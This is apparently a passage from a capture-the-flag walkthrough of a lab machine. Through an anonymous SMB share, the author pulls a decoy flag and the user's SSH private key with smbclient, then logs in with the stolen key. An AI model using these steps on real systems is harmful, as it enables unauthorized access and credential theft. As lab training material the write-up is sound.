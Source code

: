 Well, well, well, looks like Harrison's home directory is wide open!  Let's connect and see what's in there.

#### Check out SMB:

Since anonymous access is enabled, we can just use smbclient to connect to the share and poke around:

```
smbclient -N //192.168.99.23/Private
```
```
root@kali:~# smbclient -N //192.168.99.23/Private
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \>
```
Once we're in, we can see that we are indeed in a home directory.  Let's grab some interesting files:
```
smb: \> ls
. D 0 Thu Apr 18 09:55:51 2019
.. D 0 Thu Apr 18 09:12:55 2019
.bash_logout H 220 Wed Apr 4 11:30:26 2018
.profile H 807 Wed Apr 4 11:30:26 2018
.bashrc H 3771 Wed Apr 4 11:30:26 2018
silly_cats D 0 Thu Apr 18 09:55:51 2019
.ssh DH 0 Thu Apr 18 09:42:57 2019
flag.txt N 32 Thu Apr 18 09:14:18 2019

32894736 blocks of size 1024. 27324024 blocks available
smb: \> get flag.txt
getting file \flag.txt of size 32 as flag.txt (3.1 KiloBytes/sec) (average 3.1 KiloBytes/sec)
smb: \> get .ssh\
.ssh\authorized_keys .ssh\id_rsa .ssh\id_rsa.pub
smb: \> get .ssh\id_rsa
getting file \.ssh\id_rsa of size 1679 as .ssh\id_rsa (164.0 KiloBytes/sec) (average 83.5 KiloBytes/sec)
```
We have a user flag!  Let's download it and check it out.  We also have a private key in the .ssh folder.  We can probably use this to log into the system via SSH.

First we'll check out the flag:

```
cat flag.txt
```
```
root@kali:~# cat flag.txt
It's not going to be that easy.
```
Wouldn't be much of a prison if we could just grab the flag off an open file share, would it?  Let's SSH in (after fixing the permissions on the private key):

```
chmod 600 id_rsa && ssh -i id_rsa harrison@192.168.99.23
```
```
root@kali:~# chmod 600 id_rsa
root@kali:~# ssh -i id_rsa harrison@192.168.99.23
The authenticity of host '192.168.99.23 (192.168.99.23)' can't be established.
ECDSA key fingerprint is SHA256:4dYpYoutbqxX67U1GWar5n+R7JcfOY9yGk2HJbI1mKs.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.99.23' (ECDSA) to the list of known hosts.

Welcome to Harrison. Enjoy your shell.

Type '?' or 'help' to get the list of allowed commands
```
